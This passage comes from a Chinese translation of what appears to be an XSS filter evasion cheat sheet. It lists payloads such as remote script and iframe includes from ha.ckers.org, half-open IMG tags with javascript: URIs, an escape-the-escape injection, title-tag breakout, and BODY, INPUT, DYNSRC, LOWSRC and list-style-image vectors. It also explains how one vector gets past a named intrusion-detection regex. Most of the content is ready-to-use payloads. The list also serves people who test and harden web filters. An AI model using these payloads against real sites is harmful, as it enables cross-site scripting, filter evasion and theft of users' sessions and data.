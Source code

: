 <pre><code class="hljs xml"><ol class="hljs-ln"><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="1"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-tag">&lt;<span class="hljs-name">SCRIPT</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">//ha.ckers.org/.j</span>&gt;</span><span class="undefined"></span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="2"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"></div></div></li></ol></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t32"></a><a name="t32"></a>半开的HTML/JavaScript xss向量</h2>
<p>不同于 Firefox ，ie渲染引擎不会加入额外的数据到你的页面。但是它允许javascript指定在图片标签中这是有用的作为一个xss向量，因为它不需要一个结束的尖括号。你可以插入这个xss向量在任何html标签后面。甚至没有用"&gt;"关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|&lt;)[^\n]+((\%3E)|&gt;)/ because it doesn't require the end "&gt;". 这也是有效的去对付真实的xss过滤器，我曾经碰见过试用半开的&lt;IFRAME 标签替代 &lt;IMG 标签，</p>
<pre><code class="hljs java">&lt;IMG SRC=<span class="hljs-string">"javascript:alert('XSS')"</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t33"></a><a name="t33"></a>双开尖括号</h2>
<p>使用一个开始尖括号(&lt;)在向量结尾代替一个关闭尖括号（&gt;）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。</p>
<pre><code class="hljs java">&lt;iframe src=http:<span class="hljs-comment">//ha.ckers.org/scriptlet.html &lt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t34"></a><a name="t34"></a>转义javascript中的转义</h2>
<p>当一个应用程序是输出用户自定义的信息到javascript代码中，例如： &lt;SCRIPT&gt;var a="$ENV{QUERY_STRING}";&lt;/SCRIPT&gt;。如果你想插入你自己的javascript代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于&lt;SCRIPT&gt;var a="\";alert('XSS');//";&lt;/SCRIPT&gt; 。最终\转义了双引号前被服务器添加的\，而双引号则不会被转义，从而触发xss向量。xss定位器使用这个方法。</p>
<pre><code class="hljs">\";alert('XSS');//
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t35"></a><a name="t35"></a>闭合title标签</h2>
<p>这是一个简单的xss向量，可以引入一个恶意的xss攻击。 <em>译者注：titile标签内部不支持html代码，所有内容会被自动转义为普通字符。</em></p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;/<span class="hljs-name">TITLE</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">SCRIPT</span>&gt;</span><span class="javascript">alert(<span class="hljs-string">"XSS"</span>);</span><span class="hljs-tag">&lt;/<span class="hljs-name">SCRIPT</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t36"></a><a name="t36"></a>INPUT image</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">INPUT</span> <span class="hljs-attr">TYPE</span>=<span class="hljs-string">"IMAGE"</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"javascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t37"></a><a name="t37"></a>BODY image</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">BODY</span> <span class="hljs-attr">BACKGROUND</span>=<span class="hljs-string">"javascript:alert('XSS')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t38"></a><a name="t38"></a>IMG DYNSRC(视频剪辑)</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">DYNSRC</span>=<span class="hljs-string">"javascript:alert('XSS')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t39"></a><a name="t39"></a>IMG lowsrc（低分辨率图片）</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">LOWSRC</span>=<span class="hljs-string">"javascript:alert('XSS')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t40"></a><a name="t40"></a>List-style-image</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span>&gt;</span><span class="css"><span class="hljs-selector-tag">li</span> {<span class="hljs-attribute">list-style-image</span>: <span class="hljs-built_in">url</span>(<span class="hljs-string">"javascript:alert('XSS')"</span>);}</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">UL</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">LI</span>&gt;</span>XSS<span class="hljs-tag">&lt;/<span class="hljs-name">br</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t41"></a><a name="t41"></a>List-style-image</h2>
<p>为带有符号的列表嵌入自定义图片的符号。它是只能工作在ie渲染引擎因为javascript指令。这不是一个特别有用的xss向量。</p>